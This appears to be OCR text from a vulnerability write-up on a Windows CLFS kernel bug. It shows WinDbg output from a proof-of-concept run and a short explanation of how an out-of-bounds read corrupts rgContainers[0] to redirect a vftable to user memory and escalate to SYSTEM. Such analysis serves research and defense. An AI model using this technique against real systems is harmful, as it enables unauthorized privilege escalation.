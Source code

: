     00000070`e815f230 00007ffd`7151245c     : 00000000`000000c4 000088fd`00000021 00000070`e815f380 00000070`e815f360 : clfsw32!AddLogContainerSet+0x425
    00000070`e815f310 00007ff7`7b251ea6     : 00000000`00000001 00000000`00000029 00000070`e815f790 00000000`00000000 : clfsw32!AddLogContainer+0x3c
    00000070`e815f350 00000000`00000001     : 00000000`00000029 00000070`e815f790 00000000`00000000 00000000`00000004 : clfspoc0326!main+0xc6 [C:\devel\clfs74178\clfspoc0326\clfspoc0326.cpp @ 156]
    00000070`e815f358 00000000`00000029     : 00000070`e815f790 00000000`00000000 00000000`00000004 00007ffd`00000000 : 0x1
    00000070`e815f360 00000070`e815f790     : 00000000`00000000 00000000`00000004 00007ffd`00000000 00000000`00000200 : 0x29
    00000070`e815f368 00000000`00000000     : 00000000`00000004 00007ffd`00000000 00000000`00000200 00000000`00000000 : 0x00000070`e815f790
    1: kd> !pool ffff8a03a5212f70
    Pool page ffff8a03a5212f70 region is Special pool
    *ffff8a03a5212000 size:   90 data: ffff8a03a5212f70 (NonPaged) *Clfs
    		Pooltag Clfs : CLFS General buffer, or owner page lookaside list, Binary : clfs.sys
    1: kd> dq ffff8a03a5212f70 l90/8+2
    ffff8a03`a5212f70  ffffb209`f6ef0c00 00000000`00000400
    ffff8a03`a5212f80  00000000`00000000 ffffb209`f6ef0c00
    ffff8a03`a5212f90  00000400`00000400 00000000`00000001
    ffff8a03`a5212fa0  ffffb209`fba4a000 00000800`00007a00
    ffff8a03`a5212fb0  00000000`00000002 ffffb209`fba4a000
    ffff8a03`a5212fc0  00008200`00007a00 00000000`00000003
    ffff8a03`a5212fd0  ffffb209`f6edee00 0000fc00`00000200
    ffff8a03`a5212fe0  00000000`00000004 ffffb209`f6edee00
    ffff8a03`a5212ff0  0000fe00`00000200 00000000`00000005
    ffff8a03`a5213000  ????????`???????? ????????`????????

The OOB read in `CLFS!CClfsBaseFilePersisted::WriteMetadataBlock` leads to one byte increment of the `rgContainers[0]` value, that results pointing to a fake `CONTAINER_CONTEXT` with a user space address `0x5000000` treated as an object's vftable pointer, detonating the placed gadgets and escalating privilege to `SYSTEM`.

    0: kd>
    rax=0000000000000001 rbx=0000000000000000 rcx=fffff8014a24c180
    rdx=0000000000000000 rsi=0000000000000013 rdi=ffff820bcb188000
    rip=fffff8014b293e85 rsp=fffff48ea2f7c340 rbp=0000000000000002
     r8=0000000000000000  r9=0000000000000013 r10=0000000000000000
    r11=ffffa38528b05b20 r12=ffffa385273abb00 r13=0000000000000013  // 0x13
    r14=0000000000000002 r15=0000000000000000
    iopl=0         nv up ei ng nz na po nc
    cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040286
    CLFS!CClfsBaseFilePersisted::WriteMetadataBlock+0x55:
    fffff801`4b293e85 488d0c7500000000 lea     rcx,[rsi*2]
    0: kd>
    rax=0000000000000001 rbx=0000000000000000 rcx=0000000000000026
    rdx=0000000000000000 rsi=0000000000000013 rdi=ffff820bcb188000
    rip=fffff8014b293e8d rsp=fffff48ea2f7c340 rbp=0000000000000002
     r8=0000000000000000  r9=0000000000000013 r10=0000000000000000
    r11=ffffa38528b05b20 r12=ffffa385273abb00 r13=0000000000000013
    r14=0000000000000002 r15=0000000000000000
    iopl=0         nv up ei ng nz na po nc
    cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040286
    CLFS!CClfsBaseFilePersisted::WriteMetadataBlock+0x5d:
    fffff801`4b293e8d 4803ce          add     rcx,rsi
    0: kd>
    rax=0000000000000001 rbx=0000000000000000 rcx=0000000000000039
    rdx=0000000000000000 rsi=0000000000000013 rdi=ffff820bcb188000
    rip=fffff8014b293e90 rsp=fffff48ea2f7c340 rbp=0000000000000002
     r8=0000000000000000  r9=0000000000000013 r10=0000000000000000
    r11=ffffa38528b05b20 r12=ffffa385273abb00 r13=0000000000000013
    r14=0000000000000002 r15=0000000000000000
    iopl=0         nv up ei pl nz na po nc
    cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040206